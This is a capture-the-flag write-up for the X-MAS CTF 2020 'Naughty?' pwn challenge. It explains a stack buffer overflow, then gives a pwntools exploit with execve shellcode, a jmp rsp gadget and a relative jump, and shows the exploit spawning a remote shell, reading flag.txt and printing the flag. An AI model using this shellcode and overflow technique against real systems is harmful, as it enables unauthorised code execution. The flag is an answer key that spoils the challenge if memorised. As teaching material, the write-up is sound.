 # X-MAS CTF 2020

## Naughty?

> 50
>
> You haven't been naughty, have you?
>
> Target: `nc challs.xmas.htsp.ro 2000`
> 
> Author: Th3R4nd0m
> 
> [naughty.zip](naughty.zip)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _shellcode_ _remote-shell_


## Summary

Constrained space shellcode exploit triggered with a relative jump--_naughty_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  Choose your own adventure.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_38 [46];
  short local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_a = -0x1b01;
  puts("Tell Santa what you want for XMAS");
  fgets(local_38,0x47,stdin);
  puts("Nice. Hope you haven\'t been naughty");
  if (local_a != -0x1b01) {
    puts("Oh no....no gifts for you this year :((");
    exit(0);
  }
  return 0;
}
```

Vulnerability `fgets(local_38,0x47,stdin)` is writing up to `0x47` bytes into a `46` byte buffer that is `0x38` (`local_38`) bytes from the return address.  Along they way `local_a` must be set to `-0x1b01`--_think hardcoded canary_.

To overflow the return address we'll have to send `0x38 - 0xa` (46) bytes of garbage followed by the 2 bytes `-0x1b01` to pass the check, followed by `0x38 - (0x38 - 0xa) - 2` (8) more bytes of garbage.  The total payload to get to the return address should be `0x38` (56) bytes in length.

`fgets` reads one less than size (`0x47`) giving a max ROP overflow of `0x46 - 0x38` (14) bytes.  That's only enough space for one ROP call (well, two ROP calls since (as of this writing) x86_64 addresses are 48-bits (6 bytes)).  And there's no easy `win` function.

Given NX is disabled the natural place to write shellcode would be in `local_38`, as long as that code fits within 46 bytes (easy).

_But how do we call it?_

Simpler challenges like this conveniently leave `rax` pointing to the buffer and a simple `call rax` or `jmp rax` gadget can be used, however setting a checkpoint at `leave` and examining the registers illustrates we're on our own:

```
➜ 20.04 naughty # gef chall
Reading symbols from chall...
(No debugging symbols found in chall)
GEF for linux ready, type `gef' to start, `gef config' to configure
80 commands loaded for GDB 9.2 using Python engine 3.8
gef➤  b *0x4006d4
Breakpoint 1 at 0x4006d4
gef➤  run
Starting program: /pwd/datajerk/xmasctf2020/naughty/chall
Tell Santa what you want for XMAS
flags
```

After the break:

```
$rax   : 0x0
$rbx   : 0x00000000004006e0  →   push r15
$rcx   : 0x00007ffff7ed21e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe360  →  0x00000a7367616c66 ("flags\n"?)
$rbp   : 0x00007fffffffe390  →  0x0000000000000000
$rsi   : 0x00007ffff7fad723  →  0xfaf4c0000000000a
$rdi   : 0x00007ffff7faf4c0  →  0x0000000000000000
$rip   : 0x00000000004006d4  →   leave
$r8    : 0x24
$r9    : 0x0
$r10   : 0x00007ffff7fef320  →   pxor xmm0, xmm0
$r11   : 0x246
$r12   : 0x0000000000400550  →   xor ebp, ebp
$r13   : 0x00007fffffffe480  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
```

However, `rsp` is pointing at our input (`flags`), _why not `jmp rsp`?_

Well, `si` once and you'll see that `leave` just _left_ you hanging:

```
$rax   : 0x0
$rbx   : 0x00000000004006e0  →   push r15
$rcx   : 0x00007ffff7ed21e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe398  →  0x00007ffff7de80b3  →  <__libc_start_main+243> mov edi, eax
```

`rsp` now pointing to back to libc.  This will be popped into `rip` (we didn't overwrite the return address yet).

If we overwrite the return address with a `jmp rsp` gadget, that call will be popped off the stack and `rsp` pointed to the next down stack line (our last 6 bytes), then `rip` will be pointing to the `jmp rsp` gadget.  So, that leaves us (14 - 8 (for the `jmp rsp`)) 6 bytes for our shellcode.

There's not a lot you can do with 6 bytes but perhaps `jmp` someplace else (I could be wrong), in any case, we only need 2 bytes to relatively jump back `0x40` (`0x38` + 8 for the `jmp rsp` gadget) bytes to the start of `local_38` where we can easily fit some shellcode.

> As I write this I'm wondering if there is an easier ROP chain of 2 gadgets, but nothing is coming to mind.  When I worked on this I did some bad mental math and thought I only had `4` bytes to work with, so assumed `jmp rsp`, then some type stack pivot or relative jump in assembly.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall')
context.log_level = 'INFO'

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2000)
else:
    p = process(binary.path)

# http://shell-storm.org/shellcode/files/shellcode-905.php
shellcode  = b''
shellcode += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf'
shellcode += b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54'
shellcode += b'\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

jmp_rsp = list(binary.search(asm('jmp rsp')))[0]

```

`ropper --file chall` reveals there's a `jmp rsp` gadget, so after finding online some shellcode <= 46 bytes in length, we just need to find the location of the `jmp rsp` gadget within `chall`, and since `chall` has no PIE, there's no need to leak a base process address.

```python
payload  = b''
payload += shellcode
payload += (0x38 - 0xa - len(payload)) * b'A'
payload += p16(0x10000 - 0x1b01)
payload += (0x38 - len(payload)) * b'A'
payload += p64(jmp_rsp)
payload += asm('jmp $-0x40')

p.sendlineafter('for XMAS\n', payload)
p.interactive()
```

The payload is basically as described in the analysis section above:

1. write out shellcode
2. pad out to stack offset `0xa`
3. write out the 2-byte _faux_ hardcoded canary `-0x1b01`
4. pad out to the return adddress
5. call the `jmp rsp` gadget, that will then just execute the assembly below it
6. add a 2 bytes of assembly that `jmp` relative back `0x40` bytes to our shellcode

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/naughty/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challs.xmas.htsp.ro on port 2000: Done
[*] Switching to interactive mode
Nice. Hope you haven't been naughty
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}
```

